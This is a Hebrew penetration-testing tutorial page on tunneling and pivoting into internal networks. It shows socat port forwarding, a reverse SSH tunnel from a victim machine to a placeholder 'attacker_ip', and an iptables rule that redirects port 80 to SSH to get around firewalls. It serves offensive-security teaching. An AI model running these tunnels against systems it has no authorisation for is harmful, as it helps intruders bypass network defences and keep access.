

repository: AmitPinchasi/amittech · page: בודק-חדירות/4 - אקסטרות/4.1 - טינול/4.1 - טינול/index.html · generator: mkdocs



בבדיקות חדירה, היכולת לטנל למחשבים שאותם אנחנו תוקפים על מנת להגיע לרשת הפנימית של הארגונים היא מיומנות קריטית.
על ידי שימוש בכלים כמו `socat`, `iptables`, `ssh` ו`chisel`, ניתן ליצור חיבורים לעקוף מגבלות, לבצע פיבוט בין מערכות ולשמור על גישה. הרצאה זו תסקור איך לבצע חיבור למערכות גם בסביבות Linux וגם ב-Windows, ותכלול דוגמאות מעשיות שיעזרו לכם להבין וליישם טכניקות אלו.

### חלק 1: חיבור למערכת Linux

#### 1.1 **Socat לחיבור**
הכלי **Socat** (SOcket CAT) הוא כלי חזק ליצירת טינול דו-כיווניים בין שתי נקודות קצה. הוא מאפשר לנו ליצור חיבורים מאובטחים, להעביר פורטים ולבצע משימות רשת.
##### דוגמה 1: יצירת חיבור בסיסי עם Socat

נניח שאנחנו צריכים להעביר תנועה ממחשב מקומי למחשב מרוחק, תוך עקיפת מגבלות רשת. במקרה זה, ניצור חיבור TCP ממחשב מקומי למחשב מרוחק:

- **המחשב המקומי (המתפקד כקליינט)**:

```bash
socat TCP4-LISTEN:1234,fork TCP4:target_ip:5678
```

- זה מקשיב על פורט `1234` באופן מקומי ומעביר כל תנועה לכתובת ה-IP של היעד על פורט `5678`.
	
- **המחשב המרוחק (המתפקד כשרת)**:

```bash
socat TCP4-LISTEN:5678,fork TCP4:localhost:22
```

- זה מקשיב על פורט `5678` ומעביר תנועה לפורט `22` (SSH) באופן מקומי על המחשב המותקף.
	

הגדרה פשוטה זו מאפשרת לנו להעביר תנועה בין פורטים שונים, ובכך לעקוף חומות אש או מגבלות מקומיות.

##### דוגמה 2: שימוש ב-Socat עבור חיבור SSH הפוך

חיבור הפוך שימושי כאשר התוקף צריך לגשת למחשב קרבן שנמצא מאחורי NAT או חומת אש.

- **מחשב התוקף**:

```bash
socat TCP4-LISTEN:8888,reuseaddr,fork TCP4:localhost:22
```

- **מחשב הקרבן**:

```bash
ssh -R 8888:localhost:22 user@attacker_ip
```


ההגדרה הזו מעבירה כל תנועה על פורט `8888` מהמחשב של התוקף לפורט `22` (SSH) על מחשב הקרבן, ויוצרת חיבור SSH הפוך.

#### 1.2 **IPTables לחיבור וסינון רשת**

הכלי `iptables` הוא כלי ניהול חומת אש עבור Linux שניתן להשתמש בו גם עבור סינון רשת והעברת פורטים. אפשר גם להשתמש בו להגדיר הפניית רשת או חיבור.

##### דוגמה 1: הפניית תנועה מפורט אחד לאחר

אם חומת אש חוסמת פורטים מסוימים, אפשר להשתמש ב-`iptables` כדי להפנות תנועה מפורט אחד לאחר.

- **הפניית תנועת פורט 80 לפורט 22** (SSH):

```bash
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 22
```

פקודה זו תופסת את כל התנועה על פורט `80` ומפנה אותה לפורט `22`. זה שימושי במיוחד כאשר חומת אש חוסמת SSH אך מאפשרת תנועת HTTP.
